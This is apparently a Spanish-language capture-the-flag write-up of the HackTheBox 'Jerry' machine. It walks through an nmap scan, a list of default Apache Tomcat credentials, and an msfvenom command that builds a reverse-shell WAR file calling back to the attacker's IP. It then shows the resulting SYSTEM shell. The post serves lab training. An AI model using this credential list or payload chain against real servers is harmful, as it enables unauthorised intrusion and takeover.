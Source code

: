 ```yaml
---
layout: single
title: HTB-Jerry
excerpt: "WriteUp de la máquina HTB Jerry -- Type: Easy"
date: 2022-04-05
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/jerry/jerry.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/jerry/jerry.png"></centre>

[Maquina](https://app.hackthebox.com/machines/Jerry) 


## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.95 
```

```bash
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
```

Al mirar el resultado del nmap, vemos que el puerto **8080** tiene un http abierto con **Apache Tomcat** al cual accederemos a el.

<centre><img src="/assets/images/writeups/jerry/panel1.png"></centre>

Nos encontramos un panel de tomcat dónde en la parte de la derecha tenemos un link a la **managment app** la cual podemos clickar y ver que pasa.

<centre><img src="/assets/images/writeups/jerry/panel2.png"></centre>

Nos encontramos un panel de login en el cual podemos intentar iniciar sesion con las credenciales por defecto de este software.

```txt
Username:assword

admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```

Vemos que las credenciales correctas son **tomcat:s3cret**.

<centre><img src="/assets/images/writeups/jerry/panel3.png"></centre>

En el caso de que salirte del panel de credenciales nos sale una página de error con las credenciales correctas.

<centre><img src="/assets/images/writeups/jerry/panel4.png"></centre>

Ahora, tenemos un control panel donde podemos subir archivos **.war**


## Explotación

Procedemos a la creacion de un archivo **.war** con **msfvenom** para devolvernos una reverseshell a nuestra máquina desde la víctima para poder controlarla.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```

Lo subimos a la web y le damos a deploy.

<centre><img src="/assets/images/writeups/jerry/panel5.png"></centre>

Nos ponemos en escucha con netcat y ejecutamos el war desde la **url**

```bash
nc -lvp 443 #netcat

http://10.10.10.95:8080/reverse #url
```

Obtenemos la reverseshell:

```txt
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Comprobamos que usuario somos:

```powershell
C:\apache-tomcat-7.0.88>whoami
        whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Flag de los **Usuarios**:
```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,703,808 bytes free

C:\Users\Administrator\Desktop\flags>
```